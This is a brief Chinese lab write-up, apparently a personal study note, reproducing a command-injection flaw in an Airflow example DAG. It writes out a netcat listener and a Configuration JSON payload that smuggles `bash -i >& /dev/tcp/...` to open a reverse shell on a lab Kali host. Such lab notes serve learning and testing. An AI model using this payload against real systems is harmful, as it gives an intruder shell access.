




# 漏洞复现
1. 将example_trigger_target_dag前面的Off改为On：

2. 在kali上执行`netcat -lvvp 2333`，如图：

3. 在Configuration JSON中输入：`{"message":"'\";bash -i >& /dev/tcp/192.168.240.131/2333 0>&1;#"}`，再点Trigger执行dag：

4. 发现在kali上拿到了shell:

# 总结
1. 学会了简单的反弹shell。

2026/3/22